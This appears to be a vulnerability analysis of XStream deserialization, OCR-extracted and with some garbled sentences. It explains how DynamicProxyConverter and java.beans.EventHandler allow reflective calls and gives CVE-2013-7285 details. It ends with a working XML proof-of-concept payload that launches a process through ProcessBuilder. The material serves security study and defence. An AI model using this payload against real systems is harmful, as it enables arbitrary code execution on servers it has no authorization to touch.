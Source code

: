 The `EventHandler` class is an implementation of the InvocationHan
The code defined by the dler class, the `EventHandler` class is as follows: It contains the `target` and `action` attributes. In the function call chain of `EventHandler.invoke`->`EventHandler.invokeInternal`->`MethodUtil.invoke`, the previous two attributes will be used as class methods and parameters to continue to reflect the call.

<div align=center><img src="./images/4.png"></div>

## Basic Principles
`XStream` is a set of serialization and deserialization mechanisms implemented by itself. The core is to convert `XML` and objects with each other through the `Converter` converter, which is different from the native `Java` serialization and deserialization mechanism.

The existence of the `XStream` deserialization vulnerability is because `XStream` supports a converter named `DynamicProxyConverter`, which can convert the content of the `dynamic-proxy` tag in XML into a dynamic proxy class object. When the program calls the method declared by the interface tag pointed to by the `dynamic-proxy` tag, it will proxy the class method specified by the `dynamic-proxy` tag through the dynamic proxy mechanism. Using this mechanism, an attacker can construct malicious `XML` content, That is, the `handler` tag in the `dynamic-proxy` tag points to a malicious class such as the `EventHandler` class that can implement any function reflection call, and the `interface` tag points to the interface method that the target program will inevitably call. Finally, when the attacker enters the malicious `XML` content from the outside, it can trigger the deserialization vulnerability, thereby achieving the purpose of arbitrary code execution.

## Vulnerability Analysis
`XStream` is a great person. [XStream official website](https://x-stream.github.io/security.html) gives `POC` corresponding to the vulnerability that can be created using the Java runtime with `XStream`.

### CVE-2013-7285
#### Vulnerability Information
 1. Vulnerability
    - CVE-2013-7285: XStream can be used for Remote Code Execution.
 2. Affected Versions
    - All versions until and including version 1.4.6 are affected. Version 1.4.10 is affected if the security framework has not been initialized.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that can execute arbitrary shell commands.

#### POC
Based on `sorted-set`:

```xml
<sorted-set>
<string>foo</string>
<dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>open</string>
                <string>-a</string>
                <string>Calculator</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>
</sorted-set>
```